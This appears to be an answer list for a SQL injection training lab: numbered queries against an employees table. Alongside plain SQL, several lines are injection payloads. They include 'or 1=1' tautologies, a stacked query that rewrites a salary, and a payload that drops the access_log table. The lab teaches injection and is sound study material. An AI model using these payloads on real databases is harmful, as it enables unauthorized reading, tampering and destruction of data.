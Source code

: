#2
select department from employees where userid=96134

#3
update employees set department='Sales' where userid=89762

#4
alter table employees add phone varchar(20)

#5
grant alter table to UnauthorizedUser

#9
select * from users_data first_name = 'John' and last_name = '' or 1=1

#10
select * from user_data where login_count=1 and userid=1 or 1=1

#11
select * from employees where last_name='' or 1=1 --

#12
';update employees set salary=999 where userid=37648--

#13
##show everything
'or 1=1 --
##drop table
';drop table access_log--
